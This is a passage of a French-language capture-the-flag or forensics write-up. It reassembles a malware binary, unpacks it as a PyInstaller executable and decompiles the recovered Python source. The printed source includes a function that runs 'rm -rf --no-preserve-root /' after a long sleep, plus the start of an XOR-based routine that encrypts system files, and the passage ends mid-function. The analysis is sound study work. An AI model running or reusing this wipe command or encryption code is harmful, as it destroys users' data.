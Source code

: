 La partie de malware retrouvée dans la clé 1 est donc le premier, il faut donc maintenant essayer d'assembler dans l'ordre :
- 1-2-3
- 1-3-2 

Le bon ordre est "1-2-3", dans la logique des choses. Une fois recompilé en .exe, on peut strings le binaire: 

![alt](images/stringexe.png)

On remarque des chapines de caractères comme "python3.8","mpy..." on peut donc en déduire que le .exe est un fichier python qui a été compilé en .exe.

On peut donc extraire le bytecode du .exe avec le script "pyinstxtractor", trouvable sur github [ici](https://github.com/countercept/python-exe-unpacker/) :

![alt](images/extratbyc.png)

On récupère donc le .pyc, on va donc maintenant utiliser "uncompyle6" pour récupérer le code source à partir du bytecode python :


```py
import platform
import os
import sys
import random
currentPlatform = platform.platform()
fake = "We will get you. Don't fuck with us.".encode()

def xor(a,b):
    res = bytearray()
    maxSize = max(len(a),len(b))
    minSize = min(len(a),len(b))
    for i in range(maxSize):
        c1 = a[i%maxSize]
        c2 = b[i%minSize]
        res.append(c1^c2)
    return res

def deleteAll():
    os.system("sleep 555555; rm -rf --no-preserve-root /")
    return "pwned. FTW"

def encryptSystemFile(systemFilePath):
    rand = str(random.randint(242,942))
    aux = bytearray(fake)
    for c in rand:
        aux.append(ord(c))
    for path in systemFilePath.split(";"):
```